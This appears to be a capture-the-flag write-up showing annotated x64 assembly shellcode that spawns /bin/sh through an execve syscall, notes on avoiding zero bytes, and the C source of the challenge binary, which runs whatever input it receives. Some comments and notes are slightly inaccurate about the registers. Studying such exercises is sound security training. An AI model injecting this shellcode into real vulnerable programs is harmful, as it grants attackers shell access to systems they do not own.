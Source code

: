 ```assembly
# we want to write code for the following function call:
# execve('/bin/sh', 0, 0);
# x64 calling convention, we need to put arguments in registers:
#   1. rdi: pointer to b'/bin/sh\x00'
#   2. rsi: pointer to NULL
#   3. rdx: pointer to NULL
#   4. rax: 0x3b

# configuring rsp because since we are jumping to an arbitrary location it's set to 0x0
add rax, 0x100	# rax contains the address of our shellcode
mov rsp, rax		# which means that we are putting rsp 100 bytes over it

# rdi setup (pointer to binsh)
mov rbx, 0x0068732f6e69622f
push rbx
mov rdi, rsp

# rsi, rdx setup (pointer to NULL)
# note that xoring a register with itself will always result in zero
xor rbx, rbx
push rbx
mov rsi, rbx
mov rdx, rbx

# rax setup (0x3b is the syscall code for execve), and executing the call
mov rax, 0x3b
syscall
```

**Note (zeros)**: that zeros in the exploits need to be avoided is the input is read with a scanf function.

**Note (char array as sycall argument)**: We need to put a pointer to a zero to terminate the array of arguments of the execv function, which means that we need to put a pointer to a zero in the `rsi` register (since the function writes those registers in this order: `rax`, `rdi`, `rsi`).

**Note (rax register)**: The `rax` register is usually used for function return values.

After flagging we can get the source code of the binary from the server:

```c
int main() {
    void *data;
    data = mmap(0, 0x1000, 7, 0x22, -1, 0);
    read(0, data, 0x200);
    register long rax __asm__("rax") = data;
    reset_register();
    asm("jmp %rax");
    return 0;
}

int _start() {
    main();
    exit(0);
}
```
